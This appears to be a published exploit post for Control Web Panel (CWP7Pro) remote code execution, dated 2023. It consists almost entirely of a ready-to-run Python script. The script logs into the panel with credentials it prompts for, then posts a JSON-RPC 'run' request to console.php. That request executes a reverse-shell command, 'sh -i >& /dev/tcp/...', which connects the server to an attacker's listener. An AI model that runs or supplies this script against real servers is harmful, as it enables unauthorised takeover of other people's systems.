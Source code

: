 ```yaml
---
layout: post
title: Control Web Panel (CWP7Pro) - Remote Code Execution
date: 2023-08-02
category: exploit
---
```


# Exploit Title: Control Web Panel (CWP7Pro) - Remote Code Execution
# Exploit Author: Ahmet Ümit BAYRAM
# Date: 02.08.2023
# Vendor Homepage: https://control-webpanel.com
# Tested on: Ubuntu & Windows
# CVE : N/A

```python
import requests

username = input("Please enter your username: ")
password = input("Please enter your password: ")
url = input("Please enter the CWP URL (without 'http://'): ")
port = input("Please enter the CWP port: ")
ip_listener = input("Please enter the IP for the listener: ")
port_listener = input("Please enter the port for the listener: ")

s = requests.Session()

login_data = {"username": username, "password": password, "commit": "Login"}
login_url = f"http://{url}:{port}/login/index.php"
r = s.post(login_url, data=login_data, allow_redirects=False)  

if r.status_code == 302 and 'Location' in r.headers:
    print("Login successful")

    redirect_url = f"http://{url}:{port}" + r.headers['Location']
    console_url = redirect_url.replace('index.php?chk=y', 'console.php')

    command = f"sh -i >& /dev/tcp/{ip_listener}/{port_listener} 0>&1"
    console_data = {
        "jsonrpc": "2.0",
        "method": "run",
        "params": ["NO_LOGIN", {"user": "", "hostname": "", "path": ""}, command],
        "id": 1
    }
    try:
        s.post(console_url, json=console_data, timeout=3)  # Trigger RCE
    except requests.exceptions.Timeout:
        pass  

    print("Check your listener!")
    exit()
else:
    print("Login failed")
